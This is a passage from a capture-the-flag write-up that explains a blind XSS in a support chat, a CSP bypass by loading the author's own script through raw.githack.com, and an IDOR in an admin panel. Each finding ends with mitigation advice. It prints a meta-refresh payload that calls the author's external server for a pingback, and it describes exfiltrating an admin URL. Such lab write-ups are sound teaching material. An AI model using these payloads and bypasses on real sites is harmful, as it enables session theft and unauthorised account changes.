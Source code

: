 Observe the `$("#chat-div").append(decodeURIComponent('<h3><span class="badge badge-primary">' + t + "</span></h3>"));` part and that `t` is user input.

And also there's a hint that this might be a Blind XSS. If we choose to give a feedback of 1 star, we will see the following message `We're sorry about that. Our team will review this conversation shortly.`.

To validate that the other part of the server is vulnerable I chose a payload that doesn't care about the CSP, a `meta refresh tag`: `<meta http-equiv="refresh" content="0;url=https://h4ks.net/go/test2" />` which points to my webserver. And it got a pingback! happy days.

{F688271}

Side note: you won't be able to send this request from the browser because it will redirect you instantly and you won't be able to finish the chat and send it for review. You will have to send the requests from Burp.

Now what do we do about the CSP. [The article I mentioned above](https://blog.0daylabs.com/2016/09/09/bypassing-csp/) comes to the rescue. So we have to bypass `https://raw.githack.com/mattboldt/typed.js/master/lib/`. What does `raw.githack.com` do? Quick read: it gets content from Github and puts the right `Content-Type`. What does this mean? This means I can use a JS file inside one of my Github repos. I choose an older repo from my github to be "stealthy" and play around. You can check failed attempts in [the following commits](https://github.com/nytr0gen/regex-to-dfa/commits?author=nytr0gen&since=2020-01-01&until=2020-01-18).

It worked. Then a long battle started with writing payloads, figuring out what I need from the page, etc.

**To mitigate this vulnerability** I would properly HTML escape the user input on render for admin, user and user Javascript.

## 3. IDOR in Admin Panel to modify users

{F688292}

The page is actually an admin panel that allows to change the name of the user (similar to /settings). It is located at [/support/review/ce643894bb1ce7a4712691db4d18d37550275b861ce90e2c43df0adb09395fd1](https://h1-415.h1ctf.com/support/review/ce643894bb1ce7a4712691db4d18d37550275b861ce90e2c43df0adb09395fd1). I had to exfil the location after every restart.

There is a `user_id` parameter that works with other users. This explains why we have an `user_id` in `/settings`.

I wasn't able to change the name of user 2 (Jobert) and user 1 (what keeps me up at night is who is user 1...).

Remember the sanitization for `<>{}` in settings? Here, the `name` is not sanitized. Anything goes.

The page doesn't check for authorization. That means I was able to access it and play with it from a regular user.

**To mitigate this vulnerability** I would do the following things:

- properly check for authorization only from an admin account
- sanitized the name when modifying
- use HTML escape for the user input from the support chat
- check if the `user_id` is the same as the one for the support chat review
